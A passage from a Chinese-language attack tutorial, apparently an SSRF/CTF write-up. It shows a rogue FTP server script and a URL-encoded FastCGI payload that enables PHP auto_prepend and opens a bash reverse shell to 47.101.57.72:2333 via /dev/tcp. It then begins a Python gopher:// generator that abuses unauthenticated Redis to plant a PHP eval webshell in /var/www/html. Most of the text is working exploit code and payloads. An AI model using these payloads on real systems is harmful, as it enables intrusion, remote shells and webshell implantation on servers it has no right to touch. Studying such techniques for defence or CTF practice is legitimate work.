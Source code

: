     #TYPE I
    conn.send(b'200 Switching to Binary mode.\n')
    #Size /
    conn.send(b'550 Could not get the file size.\n')
    #EPSV (1)
    conn.send(b'150 ok\n')
    #PASV
    conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
    conn.send(b'150 Permission denied.\n')
    #QUIT
    conn.send(b'221 Goodbye.\n')
    conn.close()
    

开启 nc 监听，等待反弹shell：

最后构造请求发送 Payload 就行了：

    
    
    /?file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.101.57.72/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
    

如上图所示，成功反弹 Shell。

###  攻击内网 Redis

假设内网中存在 Redis 并且可以未授权访问的话，我们也可以直接攻击 Redis，实现写入 Webshell、SSH 秘钥、计划任务等。

首先编写脚本生成攻击 Redis 的 Payload：

    
    
    import urllib
    protocol="gopher://"
    ip="127.0.0.1"
    port="6379"
    shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
    filename="shell.php"
    path="/var/www/html"
    passwd=""    # 此处也可以填入Redis的密码, 在不存在Redis未授权的情况下适用
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),
         "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    